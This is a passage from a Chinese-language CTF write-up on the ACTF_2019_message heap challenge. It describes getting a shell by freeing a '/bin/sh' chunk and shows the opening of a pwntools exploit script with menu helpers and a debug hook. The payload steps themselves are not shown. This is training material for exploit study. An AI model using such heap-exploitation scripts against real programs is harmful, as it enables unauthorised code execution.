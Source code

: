 ![image-20220321173952320](https://oss.nova.gal/img/image-20220321173952320.png)

接下来，新建一个内容为`/bin/sh`的 chunk 并释放就可以拿到 shell 了。

exp:

```python
from pwn import *
from typing import TypeVar, Callable

T = TypeVar("T", bound=Callable)

sh = process([r"./ACTF_2019_message"])
elf = ELF(r"./ACTF_2019_message")
libc = ELF(r"/home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'


def menu(idx: int):
    def inner(func: T) -> T:
        def wrapper(*arg, **kwargs):
            sh.recvuntil(b"choice: ")
            sh.sendline(str(idx).encode())
            return func(*arg, **kwargs)
        return wrapper
    return inner


@menu(1)
def add(lengths: int, content: bytes):
    sh.recvuntil(b"length of message:\n")
    sh.sendline(str(lengths).encode())
    sh.recvuntil(b"input the message:\n")
    sh.sendline(content)


@menu(2)
def delete(idx: int):
    sh.recvuntil(b"you want to delete:\n")
    sh.sendline(str(idx).encode())


@menu(3)
def edit(idx: int, content: bytes):
    sh.recvuntil(b"you want to edit:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"edit the message:\n")
    sh.sendline(content)


@menu(4)
def show(idx: int) -> bytes:
    sh.recvuntil(b"you want to display:\n")
    sh.sendline(str(idx).encode())
    sh.recvuntil(b"The message: ")
    msg = sh.recvuntil(b"\n", drop=True)
    return msg


def dbg(arg: str = ''):
    gdb.attach(sh, arg)
    pause()
```
